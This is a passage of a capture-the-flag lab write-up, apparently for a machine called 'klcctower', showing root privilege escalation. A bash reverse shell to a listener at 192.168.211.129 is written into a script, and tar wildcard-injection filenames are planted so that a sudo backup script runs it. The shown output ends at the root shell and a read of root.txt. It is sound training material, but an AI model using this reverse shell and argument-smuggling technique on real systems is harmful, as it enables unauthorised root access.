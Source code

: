 ```
john@klcctower:~$ cd /opt/important

john@klcctower:/opt/important$ echo 'bash -i >& /dev/tcp/192.168.211.129/1234 0>&1' > shell.sh

john@klcctower:/opt/important$ touch "/opt/important/--checkpoint-action=exec=sh shell.sh"

john@klcctower:/opt/important$ touch "/opt/important/--checkpoint=1"

john@klcctower:/opt/important$ chmod +x shell.sh
```

Set new listener to receive the connection as <code>root</code>:

```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 1234                                            
listening on [any] 1234 ...
```

Then, run the script:
```
john@klcctower:/opt/important$ sudo /usr/local/bin/backup.sh
```

Success getting connection as <code>root</code>!

```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 1234                                            
listening on [any] 1234 ...
connect to [192.168.211.129] from (UNKNOWN) [192.168.211.143] 34346
root@klcctower:/opt/important# cat /root/root.txt
```

<details><summary><b>🏳️root.txt</b></summary></details>


## 📚 References:

- php-reverse-shell - https://github.com/pentestmonkey/php-reverse-shell

- Linux Privilege Escalation Using <code>tar</code> Wildcards: A Step-by-Step Guide - https://medium.com/@althubianymalek/linux-privilege-escalation-using-tar-wildcards-a-step-by-step-guide-55771aae063f